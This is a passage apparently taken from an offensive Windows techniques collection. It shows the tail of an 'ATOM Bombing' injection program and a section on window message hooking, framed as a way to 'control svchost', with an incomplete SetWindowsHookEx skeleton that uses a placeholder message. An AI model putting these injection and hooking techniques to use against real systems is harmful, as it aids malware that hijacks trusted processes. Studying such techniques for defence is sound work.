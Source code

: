 ```

    // Cleanup
    GlobalDeleteAtom(atom);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    printf("ATOM Bombing successful.\n");
    return 0;
}
```


### Window Message Hooking

Hooking window messages to control svchost

```
hookmsg.exe svchost.exe
```




Window Message Hooking involves intercepting and possibly modifying window messages in the system. One common method to achieve this is by using the `SetWindowsHookEx` function provided by the Windows API. This function allows you to set a hook procedure to monitor the system for certain types of messages before they reach the target window procedure.

```
#include <windows.h>
#include <stdio.h>

// Global variables
HINSTANCE hInstance;
HHOOK hHook;

// Hook procedure
LRESULT CALLBACK MessageHookProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0) {
        // Intercept messages here
        MSG *msg = (MSG *)lParam;
        if (msg->message == WM_SOME_MESSAGE) { // Replace WM_SOME_MESSAGE with a real message identifier
            // Handle or modify the message
            printf("Intercepted a window message!\n");
        }
    }
    return CallNextHookEx(hHook, nCode, wParam, lParam);
}

BOOL SetHook() {
    hHook = SetWindowsHookEx(WH_GETMESSAGE, MessageHookProc, hInstance, 0);
    return (hHook != NULL);
}

BOOL UnsetHook() {
    return UnhookWindowsHookEx(hHook);
}

int main() {
    hInstance = GetModuleHandle(NULL);

    if (!SetHook()) {
        printf("Failed to set hook.\n");
        return 1;
    }

```